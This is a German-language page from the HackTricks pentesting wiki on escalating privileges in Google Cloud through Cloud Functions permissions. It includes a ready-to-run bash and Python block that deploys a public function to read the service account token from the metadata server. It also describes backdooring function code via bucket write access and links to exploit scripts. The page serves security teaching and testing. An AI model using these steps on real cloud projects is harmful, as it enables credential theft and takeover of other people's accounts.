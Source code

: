 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Mehr Informationen über Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **eine neue Cloud-Funktion mit beliebigem (bösartigem) Code erstellen und ihr ein Dienstkonto zuweisen**. Dann kann er das Dienstkonto-Token aus den Metadaten leaken, um die Berechtigungen zu eskalieren.\
Einige Berechtigungen zum Auslösen der Funktion könnten erforderlich sein.

Exploit-Skripte für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) und [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) und die vorgefertigte .zip-Datei finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **den Code einer Funktion ändern und sogar das angehängte Dienstkonto ändern**, um das Token zu exfiltrieren.

{% hint style="danger" %}
Um Cloud-Funktionen bereitzustellen, benötigen Sie auch actAs-Berechtigungen über das Standard-Compute-Dienstkonto oder über das Dienstkonto, das zum Erstellen des Images verwendet wird.
{% endhint %}

Einige zusätzliche Berechtigungen wie die `.call`-Berechtigung für Version 1 cloudfunctions oder die Rolle `role/run.invoker`, um die Funktion auszulösen, könnten erforderlich sein.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Wenn Sie den Fehler `Permission 'run.services.setIamPolicy' denied on resource...` erhalten, liegt das daran, dass Sie den Parameter `--allow-unauthenticated` verwenden und nicht über ausreichende Berechtigungen verfügen.
{% endhint %}

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Mit dieser Berechtigung können Sie eine **signierte URL erhalten, um eine Datei in einen Funktionsbucket hochzuladen (aber der Code der Funktion wird nicht geändert, Sie müssen ihn weiterhin aktualisieren)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nicht wirklich sicher, wie nützlich nur diese Berechtigung aus der Perspektive eines Angreifers ist, aber gut zu wissen.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gib dir eine der vorherigen **`.update`** oder **`.create`** Berechtigungen, um zu eskalieren.

### `cloudfunctions.functions.update`

Nur mit **`cloudfunctions`** Berechtigungen, ohne **`iam.serviceAccounts.actAs`** kannst du **die Funktion nicht aktualisieren, ALSO IST DAS KEINE GÜLTIGE PRIVESC.**

### Lese- und Schreibzugriff auf den Bucket

Wenn du Lese- und Schreibzugriff auf den Bucket hast, kannst du Änderungen im Code überwachen und wann immer eine **Aktualisierung im Bucket erfolgt, kannst du den neuen Code mit deinem eigenen Code aktualisieren**, sodass die neue Version der Cloud-Funktion mit dem eingereichten Backdoor-Code ausgeführt wird.

Du kannst mehr über den Angriff erfahren in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Du kannst dies jedoch nicht verwenden, um Dritte Cloud-Funktionen vorab zu kompromittieren, denn wenn du den Bucket in deinem Konto erstellst und ihm öffentliche Berechtigungen gibst, sodass das externe Projekt darauf schreiben kann, erhältst du den folgenden Fehler:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Dies könnte jedoch für DoS-Angriffe verwendet werden.
{% endhint %}

### Lese- und Schreibzugriff auf das Artifact Registry

Wenn eine Cloud-Funktion erstellt wird, wird ein neues Docker-Image in das Artifact Registry des Projekts gepusht. Ich habe versucht, das Bild mit einem neuen zu ändern und sogar das aktuelle Bild (und das `cache` Bild) zu löschen, und es hat sich nichts geändert, die Cloud-Funktion funktioniert weiterhin. Daher könnte es **möglicherweise möglich sein, einen Race Condition-Angriff** wie mit dem Bucket auszunutzen, um den Docker-Container zu ändern, der ausgeführt wird, aber **einfach das gespeicherte Bild zu ändern, ist nicht möglich, um die Cloud-Funktion zu kompromittieren.**

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
